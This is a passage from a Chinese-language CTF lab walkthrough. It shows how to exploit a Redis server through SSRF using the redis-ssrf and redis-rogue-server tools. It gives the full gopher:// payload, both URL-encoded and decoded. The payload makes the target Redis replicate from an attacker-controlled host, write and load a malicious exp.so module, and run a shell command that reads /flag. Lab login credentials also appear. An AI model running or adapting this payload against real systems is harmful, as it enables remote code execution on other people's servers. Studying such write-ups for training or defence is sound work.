   https://github.com/xmsec/redis-ssrf

6. 另开一个浏览器，并申请一个小号，在basic的Linux lab中开启一个环境，如下，分配的端口为28396。

   然后我们利用xshell登录到该Linuxlab服务端，用户名为root，密码为123456。

<img src="images/image-20210120145403136.png" alt="image-20210120145403136" width="33%;" />

7. 再利用xftp，同样登录该服务端，并上传前面下的两个工具，并将redis-rogue-server-master中的exp.so复制到redis-ssrf-master中。

   ![image-20210120145952017](images/image-20210120145952017.png)

   然后需要修改ssrf-redis.py文件，将其中的ip和端口改为linuxLab对应的ip地址。

   <img src="images/image-20210120150354226.png" alt="image-20210120150354226" width="50%;" />

   ![image-20210120150412426](images/image-20210120150412426.png)

   <img src="images/image-20210120152220846.png" alt="image-20210120152220846" width="50%;" />

8. `python ssrf-redis.py`，生成payload。

   该脚本默认mode=3，即直接生成redis的rce。

   生成的payload为：

   ```html
   gopher://0.0.0.0:6379/_%2A2%0D%0A%244%0D%0AAUTH%0D%0A%244%0D%0Aroot%0D%0A%2A3%0D%0A%247%0D%0ASLAVEOF%0D%0A%2414%0D%0A172.16.163.170%0D%0A%244%0D%0A6666%0D%0A%2A4%0D%0A%246%0D%0ACONFIG%0D%0A%243%0D%0ASET%0D%0A%243%0D%0Adir%0D%0A%245%0D%0A/tmp/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%246%0D%0Aexp.so%0D%0A%2A3%0D%0A%246%0D%0AMODULE%0D%0A%244%0D%0ALOAD%0D%0A%2411%0D%0A/tmp/exp.so%0D%0A%2A2%0D%0A%2411%0D%0Asystem.exec%0D%0A%2414%0D%0Acat%24%7BIFS%7D/flag%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
   ```

   将该payload解码之后如下：

   ```shell
   gopher://0.0.0.0:6379/_*2
   $4
   AUTH
   $4
   root
   *3
   $7
   SLAVEOF
   $14
   172.16.163.170
   $4
   6666
   *4
   $6
   CONFIG
   $3
   SET
   $3
   dir
   $5
   /tmp/
   *4
   $6
   config
   $3
   set
   $10
   dbfilename
   $6
   exp.so
   ```